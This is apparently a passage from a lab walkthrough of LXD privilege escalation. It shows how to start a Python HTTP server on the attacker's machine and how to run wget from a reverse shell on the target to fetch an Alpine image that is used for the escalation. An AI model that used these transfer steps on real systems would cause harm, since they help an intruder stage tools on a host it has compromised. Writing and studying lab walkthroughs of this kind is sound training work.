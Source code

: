 When you finish, you should be able to see this:

![lxd](./Screenshots/includedlxd.png)

Now, we will transfer `alpine-v3.13-x86_64-20210218_0139.tar.gz` file to the target system.

### Python server

Set up `Python3` `http` server.

```
python3 -m http.server 80
```

![lxd](./Screenshots/includedlxd2.png)

#### Disclaimer

Remember to run the server in the directory where `alpine-v3.13-x86_64-20210218_0139.tar.gz` file is present.

Now, in the `reverse shell` tab type:

```
wget http://{your tun0 ip}:80/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![lxd](./Screenshots/includedlxd3.png)

Server confirms that everything went fine.

Our file is on the `target system`.

![lxd](./Screenshots/includedlxd4.png)

